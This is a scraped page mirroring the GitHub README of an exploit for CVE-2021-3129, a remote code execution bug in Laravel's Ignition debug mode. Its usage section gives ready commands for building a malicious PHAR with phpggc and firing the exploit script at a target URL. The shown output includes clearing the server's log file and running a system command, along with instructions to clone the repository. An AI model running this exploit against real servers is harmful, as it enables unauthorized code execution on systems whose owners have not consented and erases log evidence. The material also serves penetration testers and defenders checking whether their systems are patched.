 # laravel-exploits

Exploit for CVE-2021-3129

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/ambionics](https://github.com/ambionics) |
| Url      | [https://github.com/ambionics/laravel-exploits](https://github.com/ambionics/laravel-exploits)                                               |
| Stars    | 233                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# laravel-exploits
Exploit for CVE-2021-3129
Details: https://www.ambionics.io/blog/laravel-debug-rce

# Usage

```bash
$ php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id 
$ ./laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar
Log file: /work/pentest/laravel/laravel/storage/logs/laravel.log
Logs cleared
Successfully converted to PHAR !
Phar deserialized
--------------------------
uid=1000(cf) gid=1000(cf) ...
--------------------------
Logs cleared
```



## Get the content

```
git clone https://github.com/ambionics/laravel-exploits
cd laravel-exploits
```

{% embed url="https://github.com/ambionics/laravel-exploits" %}

<figure><img src="https://avatars.githubusercontent.com/u/29630660?v=4" alt=""><figcaption><p>ambionics</p></figcaption></figure>
